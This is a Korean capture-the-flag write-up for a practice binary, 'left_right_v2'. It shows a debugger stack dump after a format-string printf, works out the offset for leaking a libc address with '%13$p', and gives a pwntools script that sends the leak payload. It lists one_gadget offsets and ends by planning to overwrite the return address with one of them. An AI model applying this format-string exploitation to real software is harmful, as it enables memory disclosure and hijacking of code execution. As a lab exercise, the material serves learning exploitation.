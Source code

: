 `printf` 직후 스택의 모습을 보면 아래와 같다.

```
───────────────────────────────[ STACK ]────────────────────────────────
00:0000│ rdi rsp 0x7ffcd8af5d90 ◂— 0x4141414141414141 ('AAAAAAAA')
01:0008│         0x7ffcd8af5d98 ◂— 0x7c70257c70257c41 ('A|%p|%p|')
02:0010│         0x7ffcd8af5da0 ◂— 0x70257c70257c7025 ('%p|%p|%p')
03:0018│         0x7ffcd8af5da8 ◂— 0x257c70257c70257c ('|%p|%p|%')
04:0020│         0x7ffcd8af5db0 —▸ 0x7ffcd8af5ea0 ◂— 0x1
05:0028│         0x7ffcd8af5db8 ◂— 0x44e72840f049a900
06:0030│ rbp     0x7ffcd8af5dc0 —▸ 0x5584a3d81760 (__libc_csu_init) ◂— endbr64
07:0038│         0x7ffcd8af5dc8 —▸ 0x7f8f3ccc3c87 (__libc_start_main+231) ◂— mov edi, eax
```

따라서, `0x4141414141414141`는 offset 6이고, memory leak이 가능한 `__libc_start_main+231`은 0x34 떨어진 즉, offset 13에 위치한다. 이로써 `%13$p`를 통해서 memory leak이 가능하다.

```python
from pwn import *

def slog(name, addr):
        return success(": ".join([name, hex(addr)]))

def right():
    for i in range(3):
        p.sendlineafter('opt >> \n', str(1))
        p.sendlineafter('way >> \n', str(1))
        p.sendlineafter('move >> \n', str(1))
    p.sendlineafter('opt >> \n', str(1))
    p.sendlineafter('way >> \n', str(1))
    p.sendlineafter('move >> \n', str(1))

def left():
    for i in range(3):
        p.sendlineafter('opt >> \n', str(1))
        p.sendlineafter('way >> \n', str(2))
        p.sendlineafter('move >> \n', str(1))

def move():
    right()
    left()

p = process('./left_right_v2')
e = ELF('./left_right_v2')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
main = libc.symbols['__libc_start_main'] + 231
og_list = [0x4f2a5, 0x4f302, 0x10a2fc]

move()
payload = '%13$p'
p.sendlineafter("What's your name?", payload)
```

이후, 우리는 RET에 값을 넣어야 하기에 offset 10의 값을 확인해보면 RET 주소와 `0xd8` 차이가 나는 것을 알 수 있기에 해당 값을 받아와 해당 위치에 **one gadget**을 write할 계획이다.
